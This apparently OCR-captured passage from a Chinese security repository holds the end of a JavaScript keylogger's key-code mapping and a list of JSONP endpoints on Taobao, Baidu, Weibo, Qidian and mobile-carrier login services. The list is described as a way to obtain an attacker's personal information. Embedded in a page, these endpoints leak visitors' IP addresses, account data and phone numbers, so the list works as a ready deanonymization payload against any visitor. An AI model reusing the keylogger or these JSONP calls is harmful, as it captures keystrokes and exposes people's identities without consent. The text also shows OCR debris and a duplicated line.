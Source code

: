 ```bash

      case 17:
        keyName = "[Ctrl]";
        break;

      case 18:
        keyName = "[Alt]";
        break;

      case 20:
        keyName = "[大小写]";
        break;

      case 32:
        keyName = "[空格]";
        break;

      case 33:
        keyName = "[PageUp]…</script>
```

常用于获取攻击者个人信息的 JSONP 接口：

```bash
http://burp/favicon.ico
https://openfpcdn.io/fingerprintjs/v3
https://verify.cmpassport.com/h5/httpsPreGetmobile
https://www.taobao.com/help/getip.php?callback=ipCallback
https://www.yy.com/yyweb/user/queryUserInfo.json?callback=jsonp
https://www.cmpassport.com/h5/onekeylogin/getNewUnicomPhonescrip
https://www.cmpassport.com/h5/onekeylogin/getNewTelecomPhonescrip
https://tieba.baidu.com/tbmall/gettdouiconinfo?callback=jsonp1613919078534
https://yuedu.baidu.com/nauser/getyduserinfo?na_uncheck=1&opid=wk_na&callback=bd
https://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_16073033003861
https://v2.sohu.com/api/pc-home-city/home-data/ip2location?_=1606458878259&callback=jQuery1124018281896477578718_1606458878259
https://id6.me/auth/preauth.do?paramKey=10F72757C5A5A12B0A6DA61E62BDF3238163CC31B9CC3CC506CCD6BF67D3BC8CEEC92DAF1ED125BC4F681D118A2ED62D8CD18EE0629220BD69802469FAB4E1C62067CA310EDC5E1A2DCDCF0E8202AA852D611A0B78364344F15A866395C9AAF3C1061C9F6B1ACDCAB232960AC6F14D615ED5184184BDB125AC647A8422EC25D7&clientType=2&paramStr=39826A2D6BADA0327947D80463C1422C01D472F90ECC1B7FC72D262D1C7AC4FC201506C46971655C6C67C5714F232A532126204E40DD35C24C4264AC5D106D9EBEFEBB98157CB7230F5F8BF1788608CA3CF9F38998815804A4652BF20C1EB763525257296155BAF2B4B46836ED276DE6944344B4135D94555640885B4363C4AD&appId=8013416909&format=jsonp&sign=C733AA0C9B2F41175F94344CAF0AA227C2F2B199&version=1.5&
https://opencloud.wostore.cn/openapi/netauth/precheck/wp?timeStamp=1659325750804&packname=xxx&business_type=1&format=jsonp&sign=FCE6F4692C5FEDD8993FDEBD079EBF49&callback=getNewUnicomPhone&fp=&client_type=7&version=v4.5&client_id=99166000000000000228&key=c4ZMLe9%2F1iX9Do2h4FGMqy5vC0IzZ%2Fgj9LePAFU%2BwTSc%2BHUbB6W1arA9YDRqR7HjFok226YHwwJrLq06Da%2BBMBM%2FPV7%2FexfV3uV%2BbR0xzMz4Xy%2F1pKyIriuaXA%2BieaQeYtvjXs1gTYXWc%2F8vZb3TODk9cKywn9FOI7m3iqrJUko%3D&packsign=xxx&
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
```
